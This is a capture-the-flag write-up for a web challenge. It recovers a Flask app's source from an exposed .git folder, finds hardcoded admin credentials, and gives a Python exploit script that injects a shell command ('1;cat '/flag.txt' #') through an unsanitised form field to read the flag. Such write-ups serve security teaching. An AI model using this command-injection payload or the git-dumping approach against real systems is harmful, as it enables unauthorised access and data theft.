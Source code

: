 +++
title = 'MovieReviewApp'
tags = [
  "Web",
  "Python",
  "Information leak",
  "483 points",
  "53 solves",
  "Vigneswar",
]
date = 2024-10-07T22:50:14+02:00
draft = true
+++

<h1 style='text-decoration: underline;text-decoration-color: #9e8c6c;font-size: 3em;'>MovieReviewApp</h1>

**Description**: Last web challenge done in the ctf (unfortunately) also one of the fastest to do if you know the right tools

## Introduction

The challenge looks like a very simple site in pure html where we see reviews on movies

## Source

Is not present the source BUT...

## Solution

The first thing that stands out is that in the URL there are extensions, so we understand that probably the system behind it is not very complex, in fact, going to the root endpoint we notice

![alt text](/images/moviereviewapp/image.png)

That directory listing is active and a .git folder exists

This allows us to see all the committed versions of the application

But I don't recommend to manually dump the whole folder so we rely on a very useful tool found on github [GitTools](https://github.com/internetwache/GitTools)

Using the dump script, we can dump the entire .git folder and then use the extractor tool to restore all the versions.

What we get is the source with all its versions.

### Leaked source

```python
# filename: app.py

from flask import Flask, render_template, request, redirect, url_for, flash, session
import psutil
import os
import platform
import subprocess
import re

app = Flask(__name__)
app.secret_key = os.urandom(32)

ADMIN_USERNAME = 'superadmin'
ADMIN_PASSWORD = 'Sup3rS3cR3TAdminP@ssw0rd$!'

@app.route('/')
def home():
    return render_template('index.html')

@app.route('/admin', methods=['GET', 'POST'])
def admin():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        if username == ADMIN_USERNAME and password == ADMIN_PASSWORD:
            session['logged_in'] = True
            return redirect(url_for('admin_panel'))
        else:
            flash("Invalid credentials. Please try again.")

    return render_template('login.html')

@app.route('/admin_panel', methods=['GET', 'POST'])
def admin_panel():
    if 'logged_in' not in session:
        return redirect(url_for('admin'))
    ping_result = None
    if request.method == 'POST':
        ip = request.form.get('ip')
        count = request.form.get('count', 1)
        try:
            count = int(count)
            ping_result = ping_ip(ip, count)
        except ValueError:
            flash("Count must be a valid integer")
        except Exception as e:
            flash(f"An error occurred: {e}")

    memory_info = psutil.virtual_memory()
    memory_usage = memory_info.percent
    total_memory = memory_info.total / (1024 ** 2)
    available_memory = memory_info.available / (1024 ** 2)

    return render_template('admin.html', ping_result=ping_result,
                           memory_usage=memory_usage, total_memory=total_memory,
                           available_memory=available_memory)


if __name__ == '__main__':
    app.run(debug=True)

```

We can see two interesting things: the first that stands out is that the admin's credentials are in the clear, and another is that we have another RCE to run.

### Exploit

```python
# filename: exploit.py

#!/usr/bin/python3

import requests
from bs4 import BeautifulSoup

BASE_URL = "https://movie-review.1nf1n1ty.team"
URL_HOOK = ""

ADMIN_USERNAME = 'superadmin'
ADMIN_PASSWORD = 'Sup3rS3cR3TAdminP@ssw0rd$!'

s = requests.Session()

def login():
  r = s.post(BASE_URL + "/servermonitor/admin",data={"username":ADMIN_USERNAME,"password":ADMIN_PASSWORD})
  if r.status_code == 200:
    print("[+] Login Success")
  else:
    print("[!] Login Failed")
    exit(1)

def exploit():
  flag = BeautifulSoup(s.post(BASE_URL + "/servermonitor/admin_panel",data={"ip":"8.8.8.8","count":"1;cat '/flag.txt' #"}).text, 'html.parser').find_all('pre')[0].text
  print("[+] Flag: ",flag)

def main():
  login()
  exploit()


if __name__ == "__main__":
  main()

# goodluck by @akiidjk
```

The solution is very simple, let's log in to the admin panel and then take advantage of the fact that the count parameter is not sanitized to execute a command of our choice and set the flag

```stdout
$ flag: ironCTF{4lways_b3_c4ar3ful_w1th_G1t!}
```

<p align='right'>Author: akiidjk </p>
